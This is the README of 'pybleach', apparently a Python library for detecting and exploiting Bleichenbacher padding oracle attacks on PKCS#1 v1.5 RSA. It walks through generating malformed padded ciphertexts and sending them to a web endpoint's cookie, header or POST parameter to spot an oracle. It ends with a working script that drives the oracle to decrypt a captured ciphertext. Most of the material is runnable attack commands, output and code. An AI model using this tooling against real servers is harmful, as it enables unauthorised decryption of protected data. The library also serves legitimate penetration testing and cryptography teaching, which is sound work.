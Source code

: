 pybleach
========

A library to facilitate the detection and exploitation of padding oracle attacks, more specifically attacks on PKCS1_v1.5. It implements the [Bleichenbacher](http://archiv.infsec.ethz.ch/education/fs08/secsem/Bleichenbacher98.pdf) attack to decrypt any ciphertext given a padding oracle.

## Generation of faulty padding

**pkcs1_test_client** is a client to generate faulty PKCS1 padded messages. Provide it an input message, and it will output a set of incorrectly padded messages. The 5 test cases implemented are:

```
➜  pyorapad git:(master) ./pkcs1_test_client.py -h | grep -i "padding test" -A 100
Padding Test:
  The padding tests to run (multiple choice possible). Each message will be
  output on a seperate line

  -1, --cm              Generate a valid PKCS1 v1.5 padded message
  -2, --cnb             Generate a valid PKCS1 v1.5 padded message which
                        contains multiple conecutive null-bytes
  -3, --nch             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will start with 0x0001, expected 0x0002
  -4, --ncl             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will contain a null-byte within the 8 bytes of
                        random padding
  -5, --ncd             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will not contain a null-byte delimiter
  -a, --all             Generate all test cases
```

For example, to generate all __-a__ cleartext __-c__ PKCS1 faulty messages for the __"ZZZZ"__ cleartext using the __256.pub__ public key, you can do the following:
```
➜  pyorapad git:(master) ./pkcs1_test_client.py -f keypairs/256.pub ZZZZ -a -c
0002ed31112d2834d547b288b1f8097ae4d3296f78a8b32be1b341005a5a5a5a
000277194205eafd22d4032d808ff0b2a950c614fa88fed3b20000005a5a5a5a
0001b4a1f7ea78ca60c9231703427a42491da04c861cf7e4ac6e75005a5a5a5a
00027f7e9b0033a684f92c50b43353d5f33f67a0a8938fce462ca2005a5a5a5a
0002cb998dc3a018b750d0319737afa00fbe14067ebcfac70fc0e7ff5a5a5a5a
```

To get the same output encrypted with the public key, just remove the __-c__ flag:
```
➜  pyorapad git:(master) ./pkcs1_test_client.py -f keypairs/256.pub ZZZZ -a   
0fc02a684419f82c12d83dd73c92182696afda77c69ac7c2c74fc6f16dfa6b15
69e944e68fdd6b4f52d8cd35dca43a53d19932813349595622e38c4a680f853a
8a4c71bb14ca822fdbc080cb3248285f0e1f7e5c7c54019bf08f0038e1de9b10
8d308248c7dc5bd57c7406f7d58e3814945a03a746cbb0525b5edcabfe62eda3
9101b24a425fe5d9f36ebd7c2c3243a9ab47a8c24fb73690a5daea0d6b12cb59
```

## Testing faulty padding

A very simple http client is provided to test a particular URL, POST parameter or header for PKCS1 padding oracle vulnerabilities. To do so, generate padding faults using the client above, and send the result to the **http_client**. The **http_client** will provide:
* The resulting status code
* The time it took for the request to complete
* (optional) The resulting request

For example, to send 5 times **-i** some a correctly padded output in the COOKIE header **-x** to the url **-u** you can do the following:
```
➜  pyorapad git:(master) ✗ ./pkcs1_test_client.py -f keypairs/256.pub abcd | ./http_client.py -u 'http://127.0.0.1:8000' -x Cookie="%s" -i 5
ae8dda9d89d27f8b1bd18565b6a09aabfa567b9db60fb2a1b788a959e278c811
	Code:      200	Duration:  0.006587
	Code:      200	Duration:  0.001053
	Code:      200	Duration:  0.000977
	Code:      200	Duration:  0.000994
	Code:      200	Duration:  0.000967
```

To test all **-a** faulty padding test cases of the POST **-p** parameter through a proxy (useful for debugging or further modifications using your favourite proxy), you can do the following:
```
➜  pyorapad git:(master) ✗ ./pkcs1_test_client.py -f keypairs/256.pub abcd -a | http_proxy="http://127.0.0.1:8080" ./http_client.py -u 'http://127.0.0.1:8000' -p param="%s" -i 1
58f3cc08f2de432e44b81d32f7639bcec89cd07752116615f17635dc0870d89c
	Code:      403	Duration:  0.035813
82195dad39e5be85c4959c3c5dfefc85c0e11582d5c42c5b61eb49faf0b2c59e
	Code:      403	Duration:  0.049567
382cdff02984da708f9332b48a64b64542b466c00b4386cff7595f0d0b1db2e3
	Code:      403	Duration:  0.048423
1a86ddd8a1c05351eb7c1c5f2c31fd2f55f3f03d9af86cfa0e6546fa553cec97
	Code:      403	Duration:  0.048562
4934721447b2ace0a30adb163313ec87d36c59a3cfdac6d3b258a90fff6a55dd
	Code:      500	Duration:  0.088740
```
The latest request is suspicious, since it returns a different error code and timing for an faulty message. You have found an injection point!

## Oracle, decrypt me that cleartext!

A bit of work is needed here, namely writting a similar script:

```python
import logging
from oracle import HttpOracle
from padding import Bleichenbacher

if __name__ == "__main__":
  logging.basicConfig(level=logging.DEBUG)
  try:
    def callback(resp, duration):
      ret = False
      if resp != None:
        #print(resp.getcode(), dict(resp.info()), resp.read())
        if resp.getcode() == 500:
          ret = True
      else:
        print("Request failed")
      return ret
    o = HttpOracle("http://127.0.0.1", headers={"Cookie":"name=%0128x"})
    o.set_proxy()
    b = Bleichenbacher.pubkey_from_file("512.pub", o, callback)
    m, i = b.run_search("49affbbe68d923e9cd1d2420fec72aea432b5a119df51f1bba89aa1245eeb627d6809eeebb02db75746df85435735e6e6d11067d77c66da23b7722051141bb19")
    print("Found cleartext :%i in %i iterations" % (m, i))
  except KeyboardInterrupt:
    b.stop_search()
```

Once this has run for a long time, you should get the cleartext message you are looking for
